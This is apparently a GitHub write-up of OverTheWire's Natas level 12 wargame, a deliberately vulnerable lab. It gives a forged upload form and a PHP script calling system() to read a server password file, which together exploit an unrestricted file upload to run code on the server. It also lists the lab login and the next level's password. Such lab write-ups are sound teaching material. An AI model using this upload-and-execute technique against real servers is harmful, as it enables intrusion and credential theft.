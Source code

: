 # [Level 11 to 12](https://overthewire.org/wargames/natas/natas12.html) - Exploit file upload

- Login
```
URL: http://natas12.natas.labs.overthewire.org
Username: natas12
Password: yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
```
- Exercise:
![image](https://github.com/user-attachments/assets/bc198088-c94a-4f8c-9bc0-617bda87fc74)
![image](https://github.com/user-attachments/assets/b98e4e20-afb9-40de-93e8-8192a2cad313)

- Background:
- Solution:
  - Save the following as file `natas12_form.html`: 
  ```html
  <html>
  <form enctype="multipart/form-data" action="http://natas12.natas.labs.overthewire.org/index.php" method="POST">
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
  <input type="hidden" name="filename" value="natas12_getpass.php" />
  Choose a JPEG to upload (max 1KB):<br/>
  <input name="uploadedfile" type="file" /><br />
  <input type="submit" value="Upload File" />
  </form>
  </body>
  </html>
  ```
    - Submits a file upload request to the webserver's upload handler `index.php`
    - Telling the server to save the uploaded file as `natas12_getpass.php`
  - Save the following as file `natas12_getpass.php` and load it into `natas12_form.html`:
  ```php
  <?php
  system("cat /etc/natas_webpass/natas13")
  ?>
  ```
    - PHP script that reads the contents of the password file for natas13
    - When this file is executed by the server, the password will be printed on the webpage
  - Open `natas12_form.html` in a browser and upload `natas12_getpass.php`
  - Server saves the file to a location like: `http://natas12.natas.labs.overthewire.org/upload/natas12_getpass.php`
  - Visit that URL in the browser
  - Server executes the PHP file and prints the password for natas13
  ![image](https://github.com/user-attachments/assets/8bf24710-50dd-4eff-bf94-b84b81aa890d)
  ![image](https://github.com/user-attachments/assets/40f6d645-2567-4c56-86a2-76a2f2465d93)
  ![image](https://github.com/user-attachments/assets/f8d0abd9-b252-44be-b4b9-aac9f27389a0)

- Password: `trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`
